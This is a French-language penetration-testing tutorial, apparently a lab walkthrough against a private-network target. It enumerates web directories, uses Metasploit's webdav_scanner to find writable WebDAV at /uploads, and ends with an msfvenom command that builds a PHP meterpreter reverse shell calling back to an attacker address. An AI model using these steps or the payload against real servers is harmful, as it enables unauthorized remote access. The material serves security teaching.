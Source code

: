 Le service http est présent au port 80 : si on utilise `dirb` ou `gobuster` pour énumérer les répertoires qu’il contient on obtiendra ceci :
```zsh
/.htaccess            (Status: 403) [Size: 291]
/.hta                 (Status: 403) [Size: 286]
/.htpasswd            (Status: 403) [Size: 291]
/cgi-bin/             (Status: 403) [Size: 290]
/chat                 (Status: 301) [Size: 316] [--> http://192.168.229.132/chat/]
/drupal               (Status: 301) [Size: 318] [--> http://192.168.229.132/drupal/]
/phpmyadmin           (Status: 301) [Size: 322] [--> http://192.168.229.132/phpmyadmin/]
/server-status        (Status: 403) [Size: 295]
/uploads              (Status: 301) [Size: 319] [--> http://192.168.229.132/uploads/]
```

Le répertoire `/uploads` pourrait correspondre à _WebDAV_, un service qui permet de transférer des fichiers sur un serveur http.

En plus de modules d'exploitation, Metasploit comprend de nombreux modules servant à énumérer ou détecter des vulnérabilités; un d’entre eux se nomme « webdav_scanner ». Cherchez-le et chargez-le avec la commande `use`.

Définissez les options suivantes :
+ RHOSTS : L’adresse IP de la cible
+ PATH : /uploads/

Puis lancez le module. Vous obtiendrez le résultat suivant :
```zsh
msf6 auxiliary(scanner/http/webdav_scanner) > run

[+] 192.168.229.132 (Apache/2.4.7 (Ubuntu)) has WEBDAV ENABLED
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

Il est donc possible de déposer des fichiers sur le serveur: on devrait ainsi pouvoir lancer un shell inversé. Il ne semble cependant pas y avoir de module pour exploiter directement WebDAV sur Apache dans Metasploit: on devra donc fabriquer notre propre payload avec `msfvenom` et le déposer autrement.


### _msfvenom_

Un programme à utiliser en complément de Metasploit, `msfvenom` sert à générer des payloads de différents formats (exe, asp, dll, msi, jar…) à partir des modules de Metasploit. Ceci permet en quelque sorte d'extraire des modules de Metasploit afin de les utiliser à l'extérieur de celui-ci.

Ici, on utilisera cette commande pour générer un fichier qu’on nommera `shell.php`. Ce sera un _shell_ inversé basé sur _meterpreter_; les étapes sont les suivantes :
 + Créer le _shell_ avec `msfvenom`
 + Déposer sur le serveur WebDAV avec `cadaver` (un programme client pour WebDAV)
 + Ouvrir un port d’écoute dans Metasploit
 + Exécuter le _shell_

 ##### Créer le _shell_ avec `msfvenom`
 ```zsh
┌──(kali㉿kali)-[~]
└─$ msfvenom -p php/meterpreter/reverse_tcp LHOST=192.168.229.129 LPORT=4444 > shell.php
```
